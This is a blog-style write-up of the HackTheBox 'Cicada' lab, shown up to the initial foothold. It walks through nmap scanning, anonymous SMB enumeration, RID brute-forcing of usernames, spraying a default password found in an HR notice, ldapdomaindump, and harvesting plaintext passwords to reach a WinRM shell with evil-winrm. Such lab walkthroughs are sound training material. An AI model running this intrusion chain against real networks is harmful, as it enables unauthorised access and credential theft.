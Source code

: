 ```yaml
---
layout: blog
title: Cicada HackTheBox
category: Cicada-HackTheBox
date: 2024-10-11
---
```

### Service Enumeration

**Port Scan Results**

Server IP Address | Ports Open
------------------|----------------------------------------
192.168.92.110       | **TCP**: 53,88,135,139,389,445,464,593,3268,3269,5985,63935

Ran nmap to scan for common TCP ports open on the target.

Service scan
```bash
sudo nmap -sC -sV 10.10.11.35 -oA nmap -v 
```
![](<Pasted image 20241011182259.png>)
![](<Pasted image 20241011182323.png>)

Ran another nmap scan to identify any other open TCP ports on the target.
All port scan
```bash
nmap -sV -p- -v 10.10.11.35 -oA nmap2
```
![](<Pasted image 20241011183159.png>)


**139,445 - SMB Enumeration**

The SMB share allows anonymous login which can be be exploited using the command below:
```bash
smbclient -N -L \\10.10.11.35
```
![](<Pasted image 20241011182605.png>)

Connected to the HR SMB share.
```bash
smbclient -N -L \\10.10.11.35
```
Under HR, found a file "Notice from HR.txt"
```
Your default password is: Cicada$M6Corpb*@Lp#nZp!8

To change your password:

1. Log in to your Cicada Corp account using the provided username and the default password mentioned above.
2. Once logged in, navigate to your account settings or profile settings section.
3. Look for the option to change your password. This will be labeled as "Change Password".
4. Follow the prompts to create a new password**. Make sure your new password is strong, containing a mix of uppercase letters, lowercase letters, numbers, and special characters.
5. After changing your password, make sure to save your changes.

Remember, your password is a crucial aspect of keeping your account secure. Please do not share your password with anyone, and ensure you use a complex password.

If you encounter any issues or need assistance with changing your password, don't hesitate to reach out to our support team at support@cicada.htb.

Thank you for your attention to this matter, and once again, welcome to the Cicada Corp team!

Best regards,
Cicada Corp
```

Based on the HR notice above, I added cicada.htb to /etc/hosts file that will resolve cicada.htb to the corresponding IP at 10.10.11.35.
```bash
sudo nano /etc/hosts
```
```
10.10.11.35 cicada.htb
```

Since the machine allows Guest session, I used this to enumerate users and shares on the target system.
```bash
nxc smb 10.10.11.35 -u Guest -p '' --rid-brute > user.txt
```
This will save a list of users on the system in a file named `user.txt`. Discovered all these usernames:
```
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
Administrator
Guest
krbtgt
CICADA-DC$
```

Now I am going to use the credential found from the HR notice along with the gathered list of usernames against the target to check for valid credentials.
```
nxc smb 10.10.11.35 -u user.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```
![](<Pasted image 20241012200417.png>)

I have a valid user `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`. Now, that I have valid credentials for a user on the target system, I can use `ldapdomaindump` to gather more details including users, groups, containers, etc.
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --no-json cicada.htb
```
![](<Pasted image 20241012202346.png>)
Running `ldapdomaindump` generates a `domain_users.html` file that contains interesting information on one of the other users - david.orelious. The user account description for david.orelious says:
```
Just in case I forget my password is aRt$Lp#7t*VQ!3
```
![](<Pasted image 20241012202346-1.png>)

Now that I have another set of credentials, I am going to attempt to access another SMB share folder /DEV as user david.orelious.
```bash
smbclient -U 'cicada.htb/david.orelious' \\\\10.10.11.35\\DEV
```
This share contains `Backup_script.ps1`. Downloaded the script file in local system
```
smb> get Backup_script.ps1
```
![](<Pasted image 20241012202801.png>)
This script contains credentials for another user `emily.oscars:Q!3@Lp#M6b*7t*Vt`. Leveraging the user information gathered from `ldapdomaindump`, I know that the user `emily.oscars` has remote management access and is also a member of backup operators group.
![](<Pasted image 20241012202906.png>)

**Initial Foothold - emily.oscars**
I can now log in as user `emily.oscars` over WinRM. I am going to use [evil-winrm](https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm#using-evil-winrm) to get PowerShell access.
```bash
evil-winrm -i 10.10.11.35 -u 'cicada.htb\emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'
```







